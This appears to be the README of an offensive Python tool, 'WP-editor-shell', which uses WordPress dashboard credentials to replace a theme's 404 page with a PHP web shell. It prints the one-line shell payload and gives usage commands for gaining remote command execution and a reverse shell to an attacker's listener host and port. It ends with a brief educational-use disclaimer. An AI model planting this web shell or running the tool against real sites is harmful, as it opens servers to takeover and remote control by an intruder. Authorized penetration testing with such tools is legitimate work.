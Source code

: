 # WP-editor-shell

A python script to automatically get a reverse shell from the Wordpress theme editor page

## Description
This script was created to simplify the creation of a reverse shell from a Wordpress dashboard editor page. It allows the user to update the page 404 of a theme and replace the content with `<?php system($_GET["cmd"]);?>` which then allow command execution on the page. 

## Usage 
Usage to upload the PHP payload and gain RCE on the site 
```
python wp-editor-shell.py --url http://127.0.0.1/wordpress -u admin -p admin
```

Usage to get a reverse shell

To be able to get a reverse shell you first need to open a listener on your attack machine. 

```
python wp-editor-shell.py --url http://127.0.0.1/wordpress -u admin -p admin --lhost 172.0.0.1 --lport 80
```

## Help 

```
-h, --help       Display help message

-u, --username   Username to use for wordpress Dasboard

-p, --password   Password to use for wordpress Dasboard

--url            Address of the target website

--lhost          Ip address to use for the reverse shell

--lport          Local port to use for the reverse shell
```
## Disclaimer 

This script is meant for educational purposes only. Please use it responsibly and ensure you have proper authorization when performing security assessments. It's important to respect ethical guidelines and legality in your actions.
